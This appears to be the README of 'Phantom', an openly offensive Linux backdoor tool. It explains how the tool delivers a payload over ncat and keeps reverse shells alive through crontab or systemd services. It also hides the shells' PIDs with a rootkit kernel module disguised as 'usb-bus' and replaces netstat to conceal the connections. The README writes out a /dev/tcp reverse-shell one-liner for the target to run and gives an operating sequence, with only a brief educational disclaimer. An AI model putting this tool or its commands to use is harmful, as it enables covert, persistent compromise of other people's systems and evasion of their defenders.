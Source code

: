 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every 5 minutes to the attacker's machine, but to a different port than the first one. So, essentially
you need to specify two ports. The reason for this is that this way you have more control of what to do with the backdoor shell,
otherwise the same payload gets executed each time the target connects to your machine.

## Usage

*Syntax*:	phantom-init	ip 1st-port 2nd-port
*	ip: the attacker's ip
*	1st-port: the port that listens for connections to deliver the payload
*	2nd-port: the port that listens for the backdoor shells after delivering the payload

phantom-init: Opens an ncat listening process to a predefined ip and port and redirects input to the payload file.

payload: This is the file that gets executed when the target connects to the listening ncat 1st-port. It does the following:
	a) If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
	backdoor shell to the 2nd-port.
	b) If the user connecting is root it creates a systemd service which executes a script, continuously trying to
	create a backdoor bash shell to your machine (2nd-port). It also creates a systemd service which executes a script,
	hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). It then
	creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services use
	and the systemd services themselves. It is also persistent through reboots because the second systemd service
	(the one which hides pids) inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote
	connections to the specified ip and 2nd-port.

phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system.
It can also undo changes made to the nft ruleset by using the argument -r | -R .

You have to somehow make the target execute this code, so that he connects to the 1st-port:
bash -c 'bash &>/dev/tcp/ip/1st-port 0>&1 &'
ip and 1st-port are the ones specified above.

Order of execution:
a. Before delivering the payload:
	1) Execute phantom-init and wait for the target to connect to your machine.

b. After delivering the payload:
	1) Execute phantom-firewall as root, so it can modify the firewall rules.
	2) Create an ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

Order of closing:
1.	Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2. 	Close the ncat listening process so all the connections get closed with it.
3: 	Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
		This is needed if you want to open ncat again and for the target to be able to connect to you again, otherwise a nftables rule is gonna
		block him.

Check https://github.com/konsaranto/phantom for newer versions.

---Contact Information---

Konstantinos Sarantopoulos
konsaranto@gmail.com
